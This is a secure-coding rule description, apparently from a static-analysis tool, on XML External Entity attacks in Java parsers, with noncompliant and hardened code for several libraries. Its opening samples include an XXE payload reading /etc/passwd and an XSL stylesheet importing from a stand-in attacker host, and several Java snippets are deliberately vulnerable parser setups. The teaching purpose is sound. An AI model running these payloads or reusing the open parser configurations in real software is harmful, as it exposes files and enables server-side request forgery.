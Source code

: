 https://www.w3.org/TR/xml/[XML specification] allows the use of entities that can be https://www.w3.org/TR/xml/#sec-internal-ent[internal] or https://www.w3.org/TR/xml/#sec-external-ent[external] (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or https://www.owasp.org/index.php/Server_Side_Request_Forgery[SSRFs].


Example in this XML document, an external entity read the /etc/passwd file:

----
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>  
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
----

In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

----
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet> 
----

It is recommended to disable access to external entities and network access in general.


To protect Java XML Parsers from XXE attacks https://docs.oracle.com/en/java/javase/13/security/java-api-xml-processing-jaxp-security-guide.html#GUID-94ABC0EE-9DC8-44F0-84AD-47ADD5340477[these properties] have been defined since JAXP 1.5:

* ACCESS_EXTERNAL_DTD: should be set to "" when processing XML/XSD/XLS files (it looks for external DOCTYPEs)
* ACCESS_EXTERNAL_SCHEMA: should be set to "" when processing XML/XSD/XLS files (it looks for external schemalocation ect)
* ACCESS_EXTERNAL_STYLESHEET should be set to "" when processing XLS file (it looks for external imports, includes ect); 

Note that http://xerces.apache.org/xerces2-j/[Apache Xerces] is still based on JAXP 1.4, therefore one solution is to set to ``++false++`` the http://xerces.apache.org/xerces2-j/features.html#external-general-entities[external-general-entities] feature.


Avoid FEATURE_SECURE_PROCESSING feature to protect from XXE attacks because depending on the implementation:

* it has https://docs.oracle.com/en/java/javase/13/security/java-api-xml-processing-jaxp-security-guide.html#GUID-88B04BE2-35EF-4F61-B4FA-57A0E9102342[no effect] to protect the parser from XXE attacks but helps guard against excessive memory consumption from XML processing.
* or it's just an obscur shortcut (it could set ACCESS_EXTERNAL_DTD and ACCESS_EXTERNAL_SCHEMA to "" but without guarantee).

When setting https://docs.oracle.com/javase/7/docs/api/org/xml/sax/XMLReader.html#setEntityResolver(org.xml.sax.EntityResolver)[an entity resolver] to ``++null++`` (eg: ``++setEntityResolver(null)++``) the parser will use its own resolution, which is unsafe.

== Noncompliant Code Examples

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/DocumentBuilderFactory.html[DocumentBuilderFactory] library:

----
String xml = "xxe.xml";
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = df.newDocumentBuilder();  // Noncompliant
Document document = builder.parse(new InputSource(xml));
DOMSource domSource = new DOMSource(document);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/SAXParserFactory.html[SAXParserFactory] library:

----
String xml = "xxe.xml";
SaxHandler handler = new SaxHandler();
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser parser = factory.newSAXParser();  // Noncompliant
parser.parse(xml, handler);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/stream/XMLInputFactory.html[XMLInputFactory] library:

----
XMLInputFactory factory = XMLInputFactory.newInstance();  // Noncompliant
XMLEventReader eventReader = factory.createXMLEventReader(new FileReader("xxe.xml"));
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/transform/TransformerFactory.html[TransformerFactory] library:

----
String xslt = "xxe.xsl";
String xml = "xxe.xml";
TransformerFactory transformerFactory = javax.xml.transform.TransformerFactory.newInstance();  // Noncompliant
Transformer transformer = transformerFactory.newTransformer(new StreamSource(xslt));

StringWriter writer = new StringWriter();
transformer.transform(new StreamSource(xml), new StreamResult(writer));
String result = writer.toString();
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/SchemaFactory.html[SchemaFactory] library:

----
String xsd = "xxe.xsd";
StreamSource xsdStreamSource = new StreamSource(xsd);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);  // Noncompliant
Schema schema = schemaFactory.newSchema(xsdStreamSource);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/Validator.html[Validator] library:

----
String xsd = "xxe.xsd";
String xml = "xxe.xml";
StreamSource xsdStreamSource = new StreamSource(xsd);
StreamSource xmlStreamSource = new StreamSource(xml);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
Schema schema = schemaFactory.newSchema(xsdStreamSource);
Validator validator = schema.newValidator();   // Noncompliant

StringWriter writer = new StringWriter();
validator.validate(xmlStreamSource, new StreamResult(writer));   
----

https://dom4j.github.io/[Dom4j] library:

----
SAXReader xmlReader = new SAXReader(); // Noncompliant by default
Document xmlResponse = xmlReader.read(xml);
----

http://www.jdom.org/[Jdom2] library:

----
SAXBuilder builder = new SAXBuilder(); // Noncompliant by default
Document document = builder.build(new File(xml));
----

== Compliant Solution

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/DocumentBuilderFactory.html[DocumentBuilderFactory] library:

----
String xml = "xxe.xml";
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();
df.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
df.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
DocumentBuilder builder = df.newDocumentBuilder();
Document document = builder.parse(new InputSource(xml));
DOMSource domSource = new DOMSource(document);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/SAXParserFactory.html[SAXParserFactory] library:

----
String xml = "xxe.xml";
SaxHandler handler = new SaxHandler();
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser parser = factory.newSAXParser();
parser.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
parser.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
parser.parse(xml, handler);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/stream/XMLInputFactory.html[XMLInputFactory] library:

----
XMLInputFactory factory = XMLInputFactory.newInstance();
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");  // compliant

XMLEventReader eventReader = factory.createXMLEventReader(new FileReader("xxe.xml"));
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/transform/TransformerFactory.html[TransformerFactory] library:

----
String xslt = "xxe.xsl";
String xml = "xxe.xml";
TransformerFactory transformerFactory = javax.xml.transform.TransformerFactory.newInstance();
transformerFactory.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
transformerFactory.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, ""); // Compliant
// ACCESS_EXTERNAL_SCHEMA not supported in several TransformerFactory implementations
Transformer transformer = transformerFactory.newTransformer(new StreamSource(xslt));

StringWriter writer = new StringWriter();
transformer.transform(new StreamSource(xml), new StreamResult(writer));
String result = writer.toString();
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/SchemaFactory.html[SchemaFactory] library:

----
String xsd = "xxe.xsd";
StreamSource xsdStreamSource = new StreamSource(xsd);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // Compliant
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
Schema schema = schemaFactory.newSchema(xsdStreamSource);
----

https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/Validator.html[Validator] library:

----
String xsd = "xxe.xsd";
String xml = "xxe.xml";
StreamSource xsdStreamSource = new StreamSource(xsd);
StreamSource xmlStreamSource = new StreamSource(xml);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
Schema schema = schemaFactory.newSchema(xsdStreamSource);
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); 
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); 
// validators will also inherit of these properties
Validator validator = schema.newValidator();

validator.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");   // Compliant
validator.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");   // Compliant

StringWriter writer = new StringWriter();
validator.validate(xmlStreamSource, new StreamResult(writer));   
----

For https://dom4j.github.io/[dom4j] library, ACCESS_EXTERNAL_DTD and  ACCESS_EXTERNAL_SCHEMA are not supported, thus a very strict fix is to disable doctype declarations:

----
SAXReader xmlReader = new SAXReader(); 
xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true); // Compliant
Document xmlResponse = xmlReader.read(xml);
----

http://www.jdom.org/[Jdom2] library:

----
SAXBuilder builder = new SAXBuilder(); // Compliant
builder.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
builder.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // Compliant
Document document = builder.build(new File(xml));
----

== See

* https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)[OWASP Top 10 2017 Category A4] - XML External Entities (XXE)
* https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#java[OWASP XXE Prevention Cheat Sheet]
* http://cwe.mitre.org/data/definitions/611.html[MITRE, CWE-611] - Information Exposure Through XML External Entity Reference
* http://cwe.mitre.org/data/definitions/827.html[MITRE, CWE-827] - Improper Control of Document Type Definition
